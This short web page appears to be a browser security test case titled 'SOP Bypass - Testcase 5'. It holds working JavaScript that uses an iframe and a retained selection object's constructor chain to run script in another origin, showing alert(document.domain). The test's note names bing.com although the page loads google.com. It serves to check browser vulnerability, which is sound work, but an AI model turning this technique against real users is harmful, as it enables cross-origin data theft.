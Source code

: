 ```yaml
---
layout: default
title: SOP Bypass - Testcase 5
permalink: /sop/new/5
---
```


# SOP Bypass - Testcase 5

<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="sop()">
<script>
function sop() {
    frame = document.body.appendChild(document.createElement("iframe"));
    wnd = frame.contentWindow;
    func = wnd.Function;
    wnd.location = "about:blank";
    frame.onload = function() {
        selection = func("return getSelection()")();
        wnd.location = "https://web.archive.org/web/20180831120251/http://google.com";
        frame.onload = function() {
            frame.onload = null;
            selection.baseNode.constructor.constructor.constructor("alert(document.domain)")()
        }
    }
}
</script>

**Note:**
If page displays an alert box displaying bing.com, your browser is vulnerable to SOP bypass.
